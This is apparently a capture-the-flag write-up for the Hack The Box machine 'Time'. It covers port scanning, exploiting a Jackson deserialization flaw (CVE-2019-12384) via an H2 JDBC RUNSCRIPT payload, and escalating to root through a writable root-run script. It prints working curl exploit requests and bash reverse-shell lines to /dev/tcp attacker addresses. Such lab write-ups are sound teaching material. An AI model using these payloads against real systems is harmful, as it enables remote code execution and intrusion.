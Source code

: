 ```yaml
---
layout: post
title: Time - Walkthrough
---
```


Time was all about research. The enumeration part is pretty straight forward, but the real challenge is to be able to filter results properly. Once you get the right exploit, it's easy to get the foothold and root part is a classic of privesc. I enjoyed that box !

## Recon
As usual, I start with a quick Nmap followed by a full scan with the default script (-C) and the -V tag to get more info about the services.

{% highlight sh %}
sudo nmap time && sudo nmap -sCV -p- time -oN nmap
{% endhighlight %}

{% highlight text %}
\# Nmap 7.91 scan initiated Mon Oct 26 15:12:43 2020 as: nmap -sCV -oN nmap -p- time
Nmap scan report for time (10.10.10.214)
Host is up (0.097s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
\# Nmap done at Mon Oct 26 15:18:34 2020 -- 1 IP address (1 host up) scanned in 350.85 seconds

{% endhighlight %}

We only have SSH and HTTP open. Also I note the apache version `2.4.41`. 

By having a look a the website, I can see that, as the title says, it is some kind of <strong><cite>JSON</cite></strong> parser. 
There are 2 main functions:

1. Beautify
2. Validate

If I take some json strings and try the beautify function, everything seems to work fine. But, if I try the `validate` function, I get a error message. 

>Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object

Interesting ! We have some valuable information there. Now we know that the back-end uses 
<strong><cite>Java</cite></strong> to validate the <strong><cite>JSON</cite></strong> string. Moreover, it uses the [jackson](https://github.com/FasterXML/jackson) library to parse the data. So, I guess I can try googling that and see if I can find some juicy exploit out there.

## Foothold / User

There are quite a lot of great articles on the net about <strong><cite>Jackson exploitation</cite></strong>. To narrow down my results, I did a quick search on the `Apache version 2.4.41`. That specific version has been released around mid 2019 so I think that I can filter my results on google with that specific year. 
Now it is way easier to find out what exploit should I use and I've found a great [article](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) about deserialization in Jackson library. 

>  When Jackson deserializes ch.qos.logback.core.db.DriverManagerConnectionSource, this class can be abused to instantiate a JDBC connection. JDBC stands for (J)ava (D)ata(b)ase (C)onnectivity. JDBC is a Java API to connect and execute a query with the database and it is a part of JavaSE (Java Standard Edition). Moreover, JDBC uses an automatic string to class mapping, as such it is a perfect target to load and execute even more “gadgets” inside the chain.

The idea here is to create a SSRF attack to force the server to execute a request on our machine and execute a malicious payload.
Because the vulnerability uses JDBC, we need to craft a payload in sql format. 

[CVE-2019-12384](http://www.hackdig.com/09/hack-137165.htm)

I'm gonna make a quick test by setting up a listener on my machine and send a payload via curl. 

{% highlight sh %}
nc -lvnp 2222
{% endhighlight %}

{% highlight text %}
curl -X POST http://time -d 'mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://10.10.14.10:2222/"}]'
{% endhighlight %}

We got an answer ! So we can control the request that is made be the remote server. 

{% highlight text %}
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::2222
Ncat: Listening on 0.0.0.0:2222
Ncat: Connection from 10.10.10.214.
Ncat: Connection from 10.10.10.214:40774.
	jdbc:h2:tcp://10.10.14.10:2222/����^C
{% endhighlight %}

Now all we need to do is to ask the server to request our payload and execute it. 

1. Create the sql payload as seen in the POC and save it as `exp.sql`.

>CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
>        String[] command = {"bash", "-c", cmd};
>        java.util.Scanner s = new >java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A">);
>        return s.hasNext() ? s.next() : "";  }
>$$;
>CALL SHELLEXEC('bash -i >& /dev/tcp/192.168.136.129/7777 0>&1')

2. Set up a python server

{% highlight sh %}
sudo python -m http.server 80
{% endhighlight %}

3. Set up a listener 
{% highlight sh %}
nc -lvnp 2222
{% endhighlight %}

4. Send the payload to the target machine. 

- First I url encoded my payload
> ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10/exp.sql'"}]

To

> %5B%22ch.qos.logback.core.db.DriverManagerConnectionSource%22%2C+%7B%22url%22%3A%22jdbc%3Ah2%3Amem%3A%3BTRACE_LEVEL_SYSTEM_OUT%3D3%3BINIT%3DRUNSCRIPT+FROM+%27http%3A%2F%2F10.10.14.10%2Fexp.sql%27%22%7D%5D

Then send it !
{% highlight text %}
curl -X POST http://time -d 'mode=2&data=%5B%22ch.qos.logback.core.db.DriverManagerConnectionSource%22%2C+%7B%22url%22%3A%22jdbc%3Ah2%3Amem%3A%3BTRACE_LEVEL_SYSTEM_OUT%3D3%3BINIT%3DRUNSCRIPT+FROM+%27http%3A%2F%2F10.10.14.10%2Fexp.sql%27%22%7D%5D'
{% endhighlight %}



Voila ! We have a foothold.

uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

The `user.txt` is inside Pericles home directory. 

## Root

I made a bit of enumeration but I didn't find anything useful. What I like to do is monitoring the processes on the box using <strong><cite>pspy64</cite></strong>. So, I uploaded and executed it on the box. 
I've directly seen that a shell script is invoked by the root user every 10 seconds. 

{% highlight text %}
2020/12/01 13:36:31 CMD: UID=0    PID=4100   | /bin/bash /usr/bin/timer_backup.sh 
2020/12/01 13:36:31 CMD: UID=0    PID=4099   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4098   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4097   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4096   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4095   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4094   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4093   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4092   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4107   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4106   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4105   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4104   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4103   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4108   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:32 CMD: UID=0    PID=4109   | /bin/bash /usr/bin/timer_backup.sh
{% endhighlight %}

Let's check the permissions on that file. 

{% highlight sh %}
ls -ld /usr/bin/timer_backup.sh
{% endhighlight %}
{% highlight text %}
rwxrw-rw- 1 pericles pericles 88 Dec  1 13:35 /usr/bin/timer_backup.sh
{% endhighlight %}

We have write permissions so, I can just modify that file by adding a bash command to get a shell. 

{% highlight sh %}
echo 'bash -i >& /dev/tcp/10.10.14.10/3333 0>&1' >> /usr/bin/timer_backup/sh
{% endhighlight %}

Then, set up a new listener on my local machine. 

{% highlight sh %}
nc -lvnp 3333
{% endhighlight %}

And we have a root shell. 

{% highlight sh %}
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

<strong>Rooted ;)</strong>
